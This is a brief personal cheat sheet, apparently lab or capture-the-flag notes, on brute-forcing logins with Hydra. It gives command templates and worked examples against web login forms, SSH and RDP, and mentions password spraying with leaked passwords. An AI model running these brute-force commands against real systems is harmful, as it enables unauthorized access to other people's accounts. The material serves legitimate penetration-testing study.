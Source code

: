 
## Hydra

Password bruteforcing is hydra.

### Web App Login
``` shell
hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form "<loginurl>:username=^USER^&pass=^PASS^&Cookie=<cookie>:Login Failed"
```

###### Example exploits steps
![[Pasted image 20250422152033.png]]

```
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong" -V
```


### SSH

The following attack uses the wordlist.txt file to bruteforce the admin user for SSH login.

```shell
hydra -l think -P /home/mystic/Downloads/test/htb/password.txt  -t 4 ssh://10.10.13.243
```

If the password is know, It could be used the tecnnique **password spraying** where the passwords remain constant and the username is bruteforced. This is useful if we gain passwords from a dataleak.

### RDP

A RDP attack could be this

```shell
hydra -L Administrator -P wordlist.txt <target-ip> rdp -t 4
```


